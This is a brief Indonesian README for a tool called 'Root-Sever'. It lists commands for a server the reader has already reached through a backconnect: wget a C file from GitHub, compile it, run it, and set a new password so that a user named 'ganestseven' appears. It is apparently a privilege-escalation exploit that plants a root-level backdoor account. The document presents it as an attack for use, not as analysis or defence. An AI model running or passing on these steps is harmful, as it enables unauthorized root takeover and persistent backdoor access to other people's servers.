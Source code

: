 # Root-Sever
sebelum pakai pastikan backconect terlebih dahulu
lalu compile file nya 
# comand nya
wget https://raw.githubusercontent.com/ganest-seven/Root-Sever/main/root1.c 
<br>
gcc -pthread root1.c -o g7 -lcrypt
<br>
chmod +x g7
<br>
./g7
<br>
lalu buat password baru dan tunggu proses selsai (agak lama)
<br>
lau id ganestseven
<br>
selesai
